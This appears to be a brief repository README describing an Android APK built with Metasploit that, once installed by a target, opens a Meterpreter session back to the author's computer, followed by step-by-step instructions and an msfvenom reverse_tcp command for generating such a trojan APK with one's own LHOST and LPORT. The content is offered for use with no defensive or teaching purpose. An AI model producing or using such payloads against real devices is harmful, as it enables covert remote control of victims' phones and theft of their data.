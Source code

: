 This is an apk which is created in METASPLOIT. It will help us to gain session from any android.
Which is downloaded this apk. This was created for my self.
If you are downloaded this you wont get access from the target because we should run some commands in metasploit to gain access.
We should mention the LHOST and LPORT also which are seperate for every computer and network that's why this is only works me.

To create your own apk like this:-
  1. Open metasploit framework.
  2. Then run this command:- msfvenom android/meterpreter/reverse_tcp LHOST=(your computer ip addrs) LPORT=(any 4 numbers which you should remember) R>filename.apk

THANKS FOR VISITING MY SITE......
    BYE.......
